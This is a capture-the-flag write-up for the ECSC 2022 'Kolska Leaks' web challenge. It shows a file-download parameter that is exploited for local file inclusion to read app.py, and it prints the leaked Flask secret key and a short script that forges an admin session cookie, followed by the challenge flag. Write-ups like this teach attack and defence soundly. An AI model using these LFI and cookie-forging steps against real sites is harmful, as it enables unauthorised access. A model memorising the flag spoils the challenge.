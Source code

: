 # Kolska Leaks
> Finally. The notorious hacking group got what had been coming to them. Somebody hacked them and released a bunch of their personal files in a info dump called "Kolska Leaks".
Check if they have published anything interesting besides the exfiltrated files:
https://kolska-leaks.ecsc22.hack.cert.pl/

## Recon
We are greeted with the following website:
![website](media/website.png)
'Get the flag' button redirects to */flag* route which informs us that we're not an admin.
The file download links seem interesting as they point to */download* route with a query parameter *filename* which hints a potential LFI vulnerability:
`https://kolska-leaks.ecsc22.hack.cert.pl/download?filename=files/cloud-migration.png`
*except Exception as e* at the bottom of the page hints the usage of Python.

## Exploiting LFI
Python applications usually come with *requirements.txt* file that contains a list of external packages required by the app. We could therefore try to download this file by navigating to the following path to see if the */download* route actually has an LFI vulnerability:
`https://kolska-leaks.ecsc22.hack.cert.pl/download?filename=requirements.txt`
This indeed allows us to see the contents of *requirements.txt* from which we know that the app was written in Flask framework. After trying various filenames we'll eventually discover that it's possible to download *app.py* which contains the website's source.

## Investigating the source code
Lines 25-30 of *app.py* contain the logic behind the */flag* route:
```py
@app.route("/flag")
def get_flag():
    if session.get("is_admin") == 1:
        return "Welcome to our family. " + os.environ["FLAG"]
    else:
        return "You're not an admin :("
```
Flask sessions are stored in cookies cryptographically signed using a key stored in app's *SECRET_KEY* configuration variable. Luckily for us, the key is included in the source code, which means we can use it to forge a valid session cookie with *is_admin* value set to 1:
```py
app.config['SECRET_KEY'] = "p5VAmUfaP71Zpy1g"
```

## Forging the cookie and getting the flag
After the following code as *app.py*, running it using `$ FLASK_APP=app.py flask run` and navigating to http://127.0.0.1:5000/ we can copy the *session* cookie from our local application to Kolska Leaks and successfully read the flag from the */flag* route.
```py
from flask import Flask, session

app = Flask(__name__)
app.config['SECRET_KEY'] = 'p5VAmUfaP71Zpy1g'


@app.route('/')
def index():
    session['is_admin'] = 1
    return ''
```

## Flag
`ecsc{organization_is_only_as_strong_as_its_memes}`
